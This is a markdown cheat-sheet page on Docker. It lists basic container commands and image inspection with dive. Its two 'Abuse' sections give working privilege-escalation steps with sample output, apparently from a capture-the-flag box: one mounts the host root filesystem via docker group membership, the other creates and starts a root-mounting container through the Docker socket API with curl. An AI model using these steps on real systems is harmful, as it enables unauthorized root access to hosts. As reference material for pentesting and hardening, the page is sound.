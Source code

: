 ```yaml
---
title: "Docker"
date: 2024-7-3
tags: ["Forensic", "Docker", "Container", "Dive"]
---
```


### Basic Commands

```console
# Show all running processes
sudo docker ps -a
```

```console
# Show all images
sudo docker images -a
```

```console
# Stop all processes
sudo docker stop $(sudo docker ps -a -q)
```

```console
# Remove all processes
sudo docker rm -vf $(sudo docker ps -a -q)
```

```console
# Remove all images
sudo docker rmi -f $(sudo docker images -aq)
```

```console
# Shell in docker
sudo docker exec -it <CONTAINER_NAME> sh
```

```console
# Copy file from host to container
sudo docker cp <HOST_FILE_PATH> <CONTAINER_ID>:<CONTAINER_FILE_PATH>
```

```console
# Copy file from container to host
sudo docker cp <CONTAINER_ID>:<CONTAINER_FILE_PATH> <HOST_FILE_PATH>
```

```console
# Copy folder from host to container
sudo docker cp <HOST_FOLDER_PATH>/. <CONTAINER_ID>:<CONTAINER_TARGET_PATH>
```

```console
# Copy folder from container to host
sudo docker cp <CONTAINER_ID>:<CONTAINER_FOLDER_PATH>/. <HOST_TARGET_PATH>
```

---

### Explore Docker image

{{< tab set1 tab1 >}}dive{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
dive docker-archive://image.tar
```

<small>*Ref: [dive](https://github.com/wagoodman/dive)*</small>

{{< /tabcontent >}}

---

### Abuse #1: Docker group

```console
# List images
docker images
```

```console {class="sample-code"}
$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    d7d3d98c851f   2 years ago   5.53MB
```

```console
# Mount host root filesystem
docker run -v /:/mnt -it <IMAGE_ID> sh
```

```console {class="sample-code"}
$ docker run -v /:/mnt -it d7d3d98c851f sh  
/ # 
```

```console
# Check
ls /mnt/root
```

```console {class="sample-code"}
/ # ls /mnt/root
root.txt
```

---

### Abuse #2: Docker API

```console
# Show running containers
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

```console {class="sample-code"}
root@2d24bf61767c:/root# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
[{"Containers":-1,"Created":1590787186,"Id":"sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e","Labels":null,"ParentId":"","RepoDigests":null,"RepoTags":["sandbox:latest"],"SharedSize":-1,"Size":5574537,"VirtualSize":5574537},{"Containers":-1,"Created":1588544489,"Id":"sha256:188a2704d8b01d4591334d8b5ed86892f56bfe1c68bee828edc2998fb015b9e9","Labels":null,"ParentId":"","RepoDigests":["<none>@<none>"],"RepoTags":["<none>:<none>"],"SharedSize":-1,"Size":1056679100,"VirtualSize":1056679100}]
```

```console
# Create container
curl -s -X POST -H 'Content-Type: application/json' --data-binary '{"Image": "<IMAGE_NAME>:latest","HostConfig": {"Binds": ["/:/r"]}, "Cmd": ["/bin/sh", "-c", "ls -la /r/root/"], "Tty": true}' --unix-socket /var/run/docker.sock http://localhost/containers/create
```

```console {class="sample-code"}
(remote) root@2d24bf61767c:/root# curl -s -X POST -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/r"]}, "Cmd": ["/bin/sh", "-c", "ls -la /r/root/"], "Tty": true}' --unix-socket /var/run/docker.sock http://localhost/containers/create
{"Id":"ec28a9d1ae931fb81ac1c2640d1aac24bf1e7172bd6c42f02400659c299157cd","Warnings":[]}
```

```console
# Start container
curl -i -X POST -H 'Content-Type: application/json' --unix-socket /var/run/docker.sock http://localhost/containers/<CONTAINER_ID>/start
```

```console {class="sample-code"}
(remote) root@2d24bf61767c:/root# curl -i -X POST -H 'Content-Type: application/json' --unix-socket /var/run/docker.sock http://localhost/containers/9115/start
HTTP/1.1 204 No Content
Api-Version: 1.40
Docker-Experimental: false
Ostype: linux
Server: Docker/19.03.8 (linux)
Date: Mon, 23 Sep 2024 04:29:11 GMT
```

```console
# Show results
curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/<CONTAINER_ID>/logs?stderr=1&stdout=1"
```

```console {class="sample-code"}
(remote) root@2d24bf61767c:/root# curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/9115/logs?stderr=1&stdout=1"
total 56
drwx------    6 root     root          4096 Sep 23 04:06 .
drwxr-xr-x   20 root     root          4096 Feb  9  2021 ..
lrwxrwxrwx    1 root     root             9 Jun 17  2020 .bash_history -> /dev/null
-rw-r--r--    1 root     root          3106 Dec  5  2019 .bashrc
drwx------    2 root     root          4096 Jun 30  2020 .cache
drwxr-xr-x    3 root     root          4096 Jun 30  2020 .local
-rw-r--r--    1 root     root           161 Dec  5  2019 .profile
-rw-r--r--    1 root     root            75 Jun 30  2020 .selected_editor
drwx------    2 root     root          4096 Jun 30  2020 .ssh
-rw-------    1 root     root         12235 Aug 26  2020 .viminfo
-rw-r--r--    1 root     root           165 Jun 30  2020 .wget-hsts
-rw-------    1 root     root            33 Sep 23 04:06 root.txt
drwxr-xr-x    3 root     root          4096 May 18  2020 snap
```
